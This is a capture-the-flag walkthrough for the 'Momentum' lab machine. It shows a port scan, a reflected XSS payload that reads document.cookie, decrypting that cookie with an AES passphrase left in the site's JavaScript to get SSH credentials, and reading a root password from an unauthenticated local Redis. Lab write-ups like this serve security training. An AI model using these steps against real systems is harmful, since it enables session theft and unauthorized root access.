 ```yaml
---
layout: post
title:  "Case Study : Momentum"
---
```




## Port Scan

```console
22/tcp open  ssh
80/tcp open  http
```

## XSS

```
http://10.0.2.239/opus-details.php?id=<script>alert(document.cookie)</script>
```

Result : `cookie=U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt`

## Read main.js

```
view-source:http://10.0.2.239/js/main.js
```

```js
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

## Decrypt

First install packages

```
npm install crypto-js
```

```javascript
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt("U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt", "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

#### Result

```
┌──(alienum㉿kali)-[~/Desktop]
└─$ node decrypt.js
auxerre-<REMOVED>##
```

## SSH | Guess username

username : `auxerre`
password : `auxerre-<REMOVED>##`

## Redis

```sh
auxerre@Momentum:~$ ss -an | grep 6379
tcp    LISTEN  0    128     127.0.0.1:6379    0.0.0.0:*               
```

#### Finding root password

```sh
auxerre@Momentum:~$ redis-cli
127.0.0.1:6379> KEYS *
1) "rootpass"
127.0.0.1:6379> GET rootpass
"m0mentum-<REMOVED>##"
127.0.0.1:6379>exit
auxerre@Momentum:~$ su root
Password:
root@Momentum:/home/auxerre# cd
root@Momentum:~#
```
